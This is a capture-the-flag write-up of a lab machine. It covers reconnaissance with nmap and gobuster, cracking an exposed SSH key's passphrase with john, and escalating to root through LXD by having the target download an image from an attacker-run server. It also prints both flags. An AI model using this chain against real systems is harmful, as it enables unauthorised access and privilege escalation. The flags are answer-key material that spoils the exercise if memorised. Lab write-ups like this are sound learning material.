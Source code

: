 ```yaml
---
custom_edit_url: null
---
```


## Task 1 Boot2Root
### What is the user flag?
Let's begin by performing an `nmap` scan against the target.
```
$ nmap -sC -sV 10.10.223.2
Starting Nmap 7.92 ( https://nmap.org ) at 2023-12-16 09:38 IST
Nmap scan report for 10.10.223.2
Host is up (0.15s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 34:0e:fe:06:12:67:3e:a4:eb:ab:7a:c4:81:6d:fe:a9 (RSA)
|   256 49:61:1e:f4:52:6e:7b:29:98:db:30:2d:16:ed:f4:8b (ECDSA)
|_  256 b8:60:c4:5b:b7:b2:d0:23:a0:c7:56:59:5c:63:1e:c4 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: House of danak
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 25.40 seconds
```
There are two open ports:

| Port | Service |
| :-: | :-: |
| 22   | ssh     |
| 80   | http    |

Let's visit the website through the browser.

![2](https://github.com/Knign/Write-ups/assets/110326359/7595fb56-6c5a-4462-959a-4b9bdda22924)

There's really nothing of importance here.

Using `CTRL+U` we can view the source page.

![3](https://github.com/Knign/Write-ups/assets/110326359/9d7c738e-1f18-4b71-8bf5-9a3914f1c58b)

So we know that there is a user called `john`.

We can use `gobuster` to find other web pages that might be useful.
```
$ gobuster dir -u http://10.10.223.2 -w /usr/share/wordlists/dirb/common.txt
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.223.2
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.hta                 (Status: 403) [Size: 276]
/.htaccess            (Status: 403) [Size: 276]
/.htpasswd            (Status: 403) [Size: 276]
/index.html           (Status: 200) [Size: 2762]
/robots.txt           (Status: 200) [Size: 33]
/secret               (Status: 301) [Size: 311] [--> http://10.10.223.2/secret/]
/server-status        (Status: 403) [Size: 276]
/uploads              (Status: 301) [Size: 312] [--> http://10.10.223.2/uploads/]
Progress: 4614 / 4615 (99.98%)
===============================================================
Finished
===============================================================
```
The `/secret` page seems interesting, let's go there.

![4](https://github.com/Knign/Write-ups/assets/110326359/5337a972-eaeb-4559-bcf1-f580570b881c)

Let's get the `secretKey`.

![5](https://github.com/Knign/Write-ups/assets/110326359/0cf52dc6-98b2-4a7c-9d88-559dca31c30f)

It seems to be the private key of the `john` user we saw before.
We can use `ssh2john` to create a hash file.
```
$ ssh2john secretKey > secretKey_hash 
```
Now we can use `john` to crack the hashes.
```
$ john secretKey_hash --wordlist=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 3 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
letmein          (secretKey)     
1g 0:00:00:00 DONE (2023-12-16 10:01) 4.347g/s 2295p/s 2295c/s 2295C/s stupid..red123
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```
Let's change the permissions of the `secretKey`.
```
$ chmod 600 secretKey
$ ls -l
total 8
-rw------- 1 kunal kunal 1766 Dec 16 10:03 secretKey
-rw-r--r-- 1 kunal kunal 2461 Dec 16 10:00 secretKey_hash
```
Now we are all set to login through SSH as the `john` user.
```
$ ssh -i secretKey john@10.10.223.2
Enter passphrase for key 'secretKey': 
Welcome to Ubuntu 18.04.4 LTS (GNU/Linux 4.15.0-76-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Sat Dec 16 04:34:22 UTC 2023

  System load:  0.0               Processes:           97
  Usage of /:   41.1% of 9.78GB   Users logged in:     0
  Memory usage: 32%               IP address for eth0: 10.10.223.2
  Swap usage:   0%


0 packages can be updated.
0 updates are security updates.


Last login: Mon Jul 27 20:17:26 2020 from 10.8.5.10
john@exploitable:~$ 
```
We can now read the user flag.
```
john@exploitable:~$ cat user.txt 
a5c2ff8b9c2e3d4fe9d4ff2f1a5a6e7e
```
### Answer
```
a5c2ff8b9c2e3d4fe9d4ff2f1a5a6e7e
```

&nbsp;

### What is the root flag?
Let's check what groups `john` is a part of.
```
john@exploitable:~$ id
uid=1000(john) gid=1000(john) groups=1000(john),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),108(lxd)
```
On searching for a while we can find the following article that explains how to escalate the root privilege by exploiting the features of LXD.

#### Commands to be run on the attacker machine:
```
$ git clone  https://github.com/saghul/lxd-alpine-builder.git
$ cd lxd-alpine-builder
$ sudo ./build-alpine
$ python3 -m http.server
```

#### Commands to be run on the target machine:
```
john@exploitable:/tmp$ wget http://10.17.48.138:8000/alpine-v3.19-x86_64-20231216_1041.tar.gz
--2023-12-16 05:12:53--  http://10.17.48.138:8000/alpine-v3.19-x86_64-20231216_1041.tar.gz
Connecting to 10.17.48.138:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 3646460 (3.5M) [application/gzip]
Saving to: ‘alpine-v3.19-x86_64-20231216_1041.tar.gz’

alpine-v3.19-x86_64-20231216_1041.tar.gz                   100%[========================================================================================================================================>]   3.48M   490KB/s    in 8.7s    

2023-12-16 05:13:02 (410 KB/s) - ‘alpine-v3.19-x86_64-20231216_1041.tar.gz’ saved [3646460/3646460]

john@exploitable:/tmp$ lxc image import alpine-v3.19-x86_64-20231216_1041.tar.gz --alias myimage
Image imported with fingerprint: 8d217b63453d877763142d3cfdf5bb25ad94c2ef132da82eab9c314fc5f74741
john@exploitable:/tmp$ lxc image list
+---------+--------------+--------+-------------------------------+--------+--------+------------------------------+
|  ALIAS  | FINGERPRINT  | PUBLIC |          DESCRIPTION          |  ARCH  |  SIZE  |         UPLOAD DATE          |
+---------+--------------+--------+-------------------------------+--------+--------+------------------------------+
| myimage | 8d217b63453d | no     | alpine v3.19 (20231216_10:41) | x86_64 | 3.48MB | Dec 16, 2023 at 5:16am (UTC) |
+---------+--------------+--------+-------------------------------+--------+--------+------------------------------+
john@exploitable:/tmp$ lxc init myimage ignite -c security.privileged=true
Creating ignite
john@exploitable:/tmp$ lxc config device add ignite mydevice disk source=/ path=/mnt/root recursive=true
Device mydevice added to ignite
john@exploitable:/tmp$ lxc start ignite
john@exploitable:/tmp$ lxc exec ignite /bin/sh
~ # id
uid=0(root) gid=0(root)
```
We can now locate the `root.txt` file using the `find` command.
```
~ # find / -type f -name root.txt 2>/dev/null
/mnt/root/root/root.txt
```
Let's get the root flag.
```
~ # cat /mnt/root/root/root.txt
2e337b8c9f3aff0c2b3e8d4e6a7c88fc
```
### Answer
```
2e337b8c9f3aff0c2b3e8d4e6a7c88fc
```

